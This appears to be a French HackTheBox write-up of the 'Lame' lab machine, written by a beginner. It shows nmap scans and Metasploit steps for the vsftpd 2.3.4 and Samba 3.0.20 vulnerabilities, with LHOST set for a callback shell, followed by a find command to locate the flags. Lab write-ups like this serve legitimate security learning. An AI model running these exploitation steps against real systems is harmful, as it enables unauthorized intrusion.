






# Lame - Easy

### Objectif : 
    Se connecter à la machine et trouver les flags de user.txt et root.txt

### Information :

Addresse IP : **10.10.10.3**

### Process : 

##### Récolte d'information : 

###### Scan du réseau : 

```bash
# premier scan
nmap 10.10.10.3 -sV -Pn
# deuxième scan
nmap 10.10.10.3 -sV -sC -Pn -p-

```
*
    * sV : Détecte les versions des services
    * -Pn : Ignore la découverte d'hôtes
    * -p- : Scan de tous les ports
    * -sC : Scripts de vulnérabilité et de 

###### résultat du premier scan


###### résultats du deuxième scan



###### Détection des vulnérabilités :

Nous utiliserons métasploit pour détecter et exploiter les vulnérabilités

**Accès à métasploit**
```bash
msfconsole
```
###### Recherche de la vulnérabilité
```bash
# dans la console de metasploit
 search vsftpd 2.3.4
 use 0 
 setg RHOSTS 10.10.10.3
 exploit
```

###### Exploitation de la vulnérabilité

##### vulnérabilité 1 : vsftpd 2.3.4


Étant donné que le premier ne marche pas, on va essayer de chercher d'autres vulnérabilités : essayons l'os découvert grâce au scan nmap : **samba 3.0.20** 
##### vulnérabilité 2 : samba 3.0.20
```bash
# dans la console de metasploit
 search samba 3.0.20
 use 0 
 setg RHOSTS 10.10.10.3
 setg LHOST <Mon addresse IP>
 exploit
```




Nous avons donc accès à la console de la cible
###### Recherche des fichier avec 
```bash
# cette commande nous donne les répertoires dans lesquelles se trouves les fichiers qu'on recherche
find / -name "nom_du_fichier" 2>/dev/null
```



### Ce que j'ai Appris :
* Ceci est ma première Machine HackTheBox
> chercher un ficher dans tous les répertoire tout en évitant les nombreuses affichages d'échec :
  find / -name "nom_du_fichier" 2>/dev/null 